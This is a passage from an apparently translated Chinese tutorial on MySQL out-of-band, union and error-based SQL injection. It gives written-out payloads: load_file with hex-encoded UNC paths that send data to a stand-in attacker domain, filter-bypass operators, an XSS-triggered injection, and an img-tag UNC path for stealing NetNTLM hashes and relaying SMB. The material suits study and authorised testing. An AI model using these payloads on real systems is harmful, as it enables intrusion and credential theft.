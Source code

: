 如果攻击成功，那么我们就会从Windows 7盒子中得到我们的反向shell。

[![](https://p1.ssl.qhimg.com/t01e8e995b378cf0764.png)](https://p1.ssl.qhimg.com/t01e8e995b378cf0764.png)



**<br>**

**基于union和error的注入**

Load_file函数能够用于基于union和error的注入。例如，在基于union的场景中，我们可以使用OOB注入，如：

```
http://192.168.0.100/?id=-1'+union+select+1,load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)),3-- -
```

我们可以只使用基于error的技术如BIGINT溢出方法或者EXP 基于error的方法。



```
http://192.168.0.100/?id=-1' or !(select*from(select   load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)))x)-~0-- -
http://192.168.0.100/?id=-1' or exp(~(select*from(select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)))a))-- -
```

你可以不使用or，而使用||、 |、and、 &amp;&amp;、 &amp;、 &gt;&gt;、 &lt;&lt;、 ^、 xor、 &lt;=、 &lt;、 、&gt;、 &gt;=、 *、 mul、 /、 div、 -、 +、 % 和 mod。

<br>

**XSS + SQLi**

你可以把XSS攻击和MySQL结合起来使用，它可能会在渗透测试中帮你解决不同场景中的问题。我们能够执行窃取NetNTLM哈希和结合XSS的SMB中继攻击。如果XSS是持续的，那么受害者每次访问页面都会被感染。

需要注意的是，当处理JavaScript时，你处于同源策略环境下。

```
&lt;svg onload=fetch(("http://192.168.0.100/?id=-1'+union+select+1,load_file(0x5c5c5c5c6572726f725c5c6161),3-- -"))&gt;
```

你也可以使用MySQL来回显HTML，从而回显一个无效的UNC路径来窃取NetNTLM哈希或者直接使用攻击者的IP实施SMB中继攻击。这些UNC路径只有在IE浏览器下才能被解析。

```
http://192.168.0.100/?id=-1' union select 1,'&lt;img src="\\error\aa"&gt;'%23
```



**结论**

当由于向量被禁用、受限或者被过滤且唯一的选择就是使用推理方法，从而导致所有带内方法不起作用时，我们可以使用以上提到的方法。Select…into outfile/dumpfile函数可跟基于union的注入结合使用。Load_file方法可跟基于union和error的注入结合使用。当涉及到基础机构入侵时，这些方法可能是起作用的。利用漏洞并非总是显而易见一目了然的，因此你必须在遇到实际情况时创造性地使用这些技术。

<br>

**致谢**
